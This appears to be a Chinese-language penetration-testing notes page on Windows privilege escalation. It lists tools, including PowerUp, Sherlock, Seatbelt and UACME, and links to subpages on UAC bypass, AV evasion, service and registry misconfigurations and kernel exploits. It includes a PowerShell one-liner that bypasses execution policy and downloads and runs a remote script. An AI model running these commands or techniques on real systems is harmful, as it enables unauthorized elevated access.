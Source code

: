 # windows提权

## **msf的利用 :**

**post/multi/recon/local\_exploit\_suggester**

## **利用工具：**

https://github.com/carlospolop/PEASS-ng

**PowerUp 使用**

```bash
powershell -Version 2 -nop -exec bypass IEX (New-Object Net.WebClient).DownloadString('http:///PowerUp.ps1'); Invoke-AllChecks
```

https://github.com/rasta-mouse/Sherlock 可**以快速通过系统补丁的存在来进行提权，下列为使用方法：**

```bash
powershell powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File Sherlock.ps1
```

- [windows-privesc-check - Standalone Executable to Check for Simple Privilege Escalation Vectors on Windows Systems](https://github.com/pentestmonkey/windows-privesc-check)
- https://github.com/pentestmonkey/windows-privesc-check **通过发现错误配置来进行提权**
- https://github.com/GhostPack/Seatbelt **多重对提权项进行枚举扫描，下列为利用方式：**

```bash
powershell Seatbelt.exe -group=all -full Seatbelt.exe -group=system -outputfile="C:\Temp\system.txt" Seatbelt.exe -group=remote -computername=dc.theshire.local -computername=192.168.230.209 -username=THESHIRE\sam -password="yum \"po-ta-toes\""
```

https://github.com/hfiref0x/UACME **UAC利用，针对Windows 7/8/8.1/10** 

## 提权枚举

[提权枚举-主要针对系统信息](windows%E6%8F%90%E6%9D%83%20c91ad032362f41a6b9e333fcf852b54d/%E6%8F%90%E6%9D%83%E6%9E%9A%E4%B8%BE-%E4%B8%BB%E8%A6%81%E9%92%88%E5%AF%B9%E7%B3%BB%E7%BB%9F%E4%BF%A1%E6%81%AF%20053742f86169427b9de8f752a26355ee.md)

[UAC bypass](windows%E6%8F%90%E6%9D%83%20c91ad032362f41a6b9e333fcf852b54d/UAC%20bypass%205307d952fb654cccb92781a5e3e961e0.md)

[AV躲避](windows%E6%8F%90%E6%9D%83%20c91ad032362f41a6b9e333fcf852b54d/AV%E8%BA%B2%E9%81%BF%20be618bf1cd524aaa917bad49e8bb12a1.md)

[什么用户在**运行何种服务/进程**](windows%E6%8F%90%E6%9D%83%20c91ad032362f41a6b9e333fcf852b54d/%E4%BB%80%E4%B9%88%E7%94%A8%E6%88%B7%E5%9C%A8%E8%BF%90%E8%A1%8C%E4%BD%95%E7%A7%8D%E6%9C%8D%E5%8A%A1%20%E8%BF%9B%E7%A8%8B%20061ef34adc1544698cecd083b9692345.md)

## **提权针对性的利用**

[错误的服务权限属性](windows%E6%8F%90%E6%9D%83%20c91ad032362f41a6b9e333fcf852b54d/%E9%94%99%E8%AF%AF%E7%9A%84%E6%9C%8D%E5%8A%A1%E6%9D%83%E9%99%90%E5%B1%9E%E6%80%A7%20d547a1c5562f4ee89e824a664e1ba215.md)

[错误的服务权限属性-win10中****UsoSvc错误服务权限（CVE-2019-1322）****](windows%E6%8F%90%E6%9D%83%20c91ad032362f41a6b9e333fcf852b54d/%E9%94%99%E8%AF%AF%E7%9A%84%E6%9C%8D%E5%8A%A1%E6%9D%83%E9%99%90%E5%B1%9E%E6%80%A7-win10%E4%B8%ADUsoSvc%E9%94%99%E8%AF%AF%E6%9C%8D%E5%8A%A1%E6%9D%83%E9%99%90%EF%BC%88CVE-2019-1322%EF%BC%89%2097842b9fcfdd4892a3c1868f86b9b9ea.md)

[错误的服务权限属性-****Windows XP SP1的upnphost  错误服务权限****](windows%E6%8F%90%E6%9D%83%20c91ad032362f41a6b9e333fcf852b54d/%E9%94%99%E8%AF%AF%E7%9A%84%E6%9C%8D%E5%8A%A1%E6%9D%83%E9%99%90%E5%B1%9E%E6%80%A7-Windows%20XP%20SP1%E7%9A%84upnphost%20%E9%94%99%E8%AF%AF%E6%9C%8D%E5%8A%A1%E6%9D%83%E9%99%90%20699e0a0c95344ef6916766c48cc852e3.md)

[错误的服务权限属性-**daclsvc错误服务权限**](windows%E6%8F%90%E6%9D%83%20c91ad032362f41a6b9e333fcf852b54d/%E9%94%99%E8%AF%AF%E7%9A%84%E6%9C%8D%E5%8A%A1%E6%9D%83%E9%99%90%E5%B1%9E%E6%80%A7-daclsvc%E9%94%99%E8%AF%AF%E6%9C%8D%E5%8A%A1%E6%9D%83%E9%99%90%20459c83c8e3e0472bb1e89113d5850369.md)

[未引用的服务路径](windows%E6%8F%90%E6%9D%83%20c91ad032362f41a6b9e333fcf852b54d/%E6%9C%AA%E5%BC%95%E7%94%A8%E7%9A%84%E6%9C%8D%E5%8A%A1%E8%B7%AF%E5%BE%84%209cb063c6b9ac4d6586bb324d560c2493.md)

[注册表配置错误-****AlwaysInstallElevated****](windows%E6%8F%90%E6%9D%83%20c91ad032362f41a6b9e333fcf852b54d/%E6%B3%A8%E5%86%8C%E8%A1%A8%E9%85%8D%E7%BD%AE%E9%94%99%E8%AF%AF-AlwaysInstallElevated%204ca8c9ec1dda4114923204961b00c26e.md)

[注册表配置错误-弱注册表权限](windows%E6%8F%90%E6%9D%83%20c91ad032362f41a6b9e333fcf852b54d/%E6%B3%A8%E5%86%8C%E8%A1%A8%E9%85%8D%E7%BD%AE%E9%94%99%E8%AF%AF-%E5%BC%B1%E6%B3%A8%E5%86%8C%E8%A1%A8%E6%9D%83%E9%99%90%203cc30625999f4bc38c8e9f718771013b.md)

[注册表配置错误-储存在注册表中的密码](windows%E6%8F%90%E6%9D%83%20c91ad032362f41a6b9e333fcf852b54d/%E6%B3%A8%E5%86%8C%E8%A1%A8%E9%85%8D%E7%BD%AE%E9%94%99%E8%AF%AF-%E5%82%A8%E5%AD%98%E5%9C%A8%E6%B3%A8%E5%86%8C%E8%A1%A8%E4%B8%AD%E7%9A%84%E5%AF%86%E7%A0%81%207a5cb68c525e43acb1feca00aaa00eb9.md)

[注册表配置错误-自动运行](windows%E6%8F%90%E6%9D%83%20c91ad032362f41a6b9e333fcf852b54d/%E6%B3%A8%E5%86%8C%E8%A1%A8%E9%85%8D%E7%BD%AE%E9%94%99%E8%AF%AF-%E8%87%AA%E5%8A%A8%E8%BF%90%E8%A1%8C%201061852055564e4e91a9d97604c95c17.md)

[利用****Impersonation 权限提权****](windows%E6%8F%90%E6%9D%83%20c91ad032362f41a6b9e333fcf852b54d/%E5%88%A9%E7%94%A8Impersonation%20%E6%9D%83%E9%99%90%E6%8F%90%E6%9D%83%20ec1a8b0450e2454299151d4377c87709.md)

[计划任务提权](windows%E6%8F%90%E6%9D%83%20c91ad032362f41a6b9e333fcf852b54d/%E8%AE%A1%E5%88%92%E4%BB%BB%E5%8A%A1%E6%8F%90%E6%9D%83%20ca71d16a36bc4c44a8603a3fecf41dbc.md)

[利用本地的文件/脚本进行提权](windows%E6%8F%90%E6%9D%83%20c91ad032362f41a6b9e333fcf852b54d/%E5%88%A9%E7%94%A8%E6%9C%AC%E5%9C%B0%E7%9A%84%E6%96%87%E4%BB%B6%20%E8%84%9A%E6%9C%AC%E8%BF%9B%E8%A1%8C%E6%8F%90%E6%9D%83%20c5c9e47c33004c198d7cc5a3065fd135.md)

[开机启动的应用程序利用](windows%E6%8F%90%E6%9D%83%20c91ad032362f41a6b9e333fcf852b54d/%E5%BC%80%E6%9C%BA%E5%90%AF%E5%8A%A8%E7%9A%84%E5%BA%94%E7%94%A8%E7%A8%8B%E5%BA%8F%E5%88%A9%E7%94%A8%20634453a47bae448bba86742f9806c0cd.md)

[利用****Runas 程序****](windows%E6%8F%90%E6%9D%83%20c91ad032362f41a6b9e333fcf852b54d/%E5%88%A9%E7%94%A8Runas%20%E7%A8%8B%E5%BA%8F%20564297da632d475cba399b3126666a34.md)

[针对密码-从文件中发现密码](windows%E6%8F%90%E6%9D%83%20c91ad032362f41a6b9e333fcf852b54d/%E9%92%88%E5%AF%B9%E5%AF%86%E7%A0%81-%E4%BB%8E%E6%96%87%E4%BB%B6%E4%B8%AD%E5%8F%91%E7%8E%B0%E5%AF%86%E7%A0%81%2047c2d8b209c044e9b735a1f70ebd70e9.md)

[不安全的服务中的可执行文件](windows%E6%8F%90%E6%9D%83%20c91ad032362f41a6b9e333fcf852b54d/%E4%B8%8D%E5%AE%89%E5%85%A8%E7%9A%84%E6%9C%8D%E5%8A%A1%E4%B8%AD%E7%9A%84%E5%8F%AF%E6%89%A7%E8%A1%8C%E6%96%87%E4%BB%B6%20c2c20f34f3324b8582ed097326dc7a94.md)

[打印机漏洞](windows%E6%8F%90%E6%9D%83%20c91ad032362f41a6b9e333fcf852b54d/%E6%89%93%E5%8D%B0%E6%9C%BA%E6%BC%8F%E6%B4%9E%209f843b16fa254b1f841b7bedef4cd2d7.md)

[利用卷影复制-需具有本地管理员权限](windows%E6%8F%90%E6%9D%83%20c91ad032362f41a6b9e333fcf852b54d/%E5%88%A9%E7%94%A8%E5%8D%B7%E5%BD%B1%E5%A4%8D%E5%88%B6-%E9%9C%80%E5%85%B7%E6%9C%89%E6%9C%AC%E5%9C%B0%E7%AE%A1%E7%90%86%E5%91%98%E6%9D%83%E9%99%90%20d1a38580589f4d539c8f09433d4372aa.md)

[通过不安全的GUI进行利用](windows%E6%8F%90%E6%9D%83%20c91ad032362f41a6b9e333fcf852b54d/%E9%80%9A%E8%BF%87%E4%B8%8D%E5%AE%89%E5%85%A8%E7%9A%84GUI%E8%BF%9B%E8%A1%8C%E5%88%A9%E7%94%A8%2073843c0988964624888123c60eb10316.md)

[**可写的高权限文件**](windows%E6%8F%90%E6%9D%83%20c91ad032362f41a6b9e333fcf852b54d/%E5%8F%AF%E5%86%99%E7%9A%84%E9%AB%98%E6%9D%83%E9%99%90%E6%96%87%E4%BB%B6%20a75266328b4e4c0489118b8134c3dbdc.md)

[从本地管理员到本地SYSTEM权限-使用`PsExec`-不太确定](windows%E6%8F%90%E6%9D%83%20c91ad032362f41a6b9e333fcf852b54d/%E4%BB%8E%E6%9C%AC%E5%9C%B0%E7%AE%A1%E7%90%86%E5%91%98%E5%88%B0%E6%9C%AC%E5%9C%B0SYSTEM%E6%9D%83%E9%99%90-%E4%BD%BF%E7%94%A8PsExec-%E4%B8%8D%E5%A4%AA%E7%A1%AE%E5%AE%9A%205c451f81c32d459eb608c9decb6b3d79.md)

[利用不安全的****驱动程序****](windows%E6%8F%90%E6%9D%83%20c91ad032362f41a6b9e333fcf852b54d/%E5%88%A9%E7%94%A8%E4%B8%8D%E5%AE%89%E5%85%A8%E7%9A%84%E9%A9%B1%E5%8A%A8%E7%A8%8B%E5%BA%8F%20695a487baaf54a00a5d5efdf552155a2.md)

[****$PATH 拦截****](windows%E6%8F%90%E6%9D%83%20c91ad032362f41a6b9e333fcf852b54d/$PATH%20%E6%8B%A6%E6%88%AA%2062db344a5f9648cab07ce8c9f3f5f2b3.md)

[windows 的 linux 子系统的利用](windows%E6%8F%90%E6%9D%83%20c91ad032362f41a6b9e333fcf852b54d/windows%20%E7%9A%84%20linux%20%E5%AD%90%E7%B3%BB%E7%BB%9F%E7%9A%84%E5%88%A9%E7%94%A8%20f5212ae784b04b1d9cc6abb769e370e7.md)

[针对性的内核利用](windows%E6%8F%90%E6%9D%83%20c91ad032362f41a6b9e333fcf852b54d/%E9%92%88%E5%AF%B9%E6%80%A7%E7%9A%84%E5%86%85%E6%A0%B8%E5%88%A9%E7%94%A8%20f6203a86b4ed46e083566be18ff1c23e.md)

[重大提权漏洞](windows%E6%8F%90%E6%9D%83%20c91ad032362f41a6b9e333fcf852b54d/%E9%87%8D%E5%A4%A7%E6%8F%90%E6%9D%83%E6%BC%8F%E6%B4%9E%20829d0abc4a4a458589f409f31ce25c2c.md)

[****KrbRelayUp工具****](可用于域环境下的本地用户提权)

## 相关文章：

https://github.com/frizb/Windows-Privilege-Escalation

[http://www.hackdig.com/10/hack-178563.htm](http://www.hackdig.com/10/hack-178563.htm)

[https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology and Resources/Windows - Privilege Escalation.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)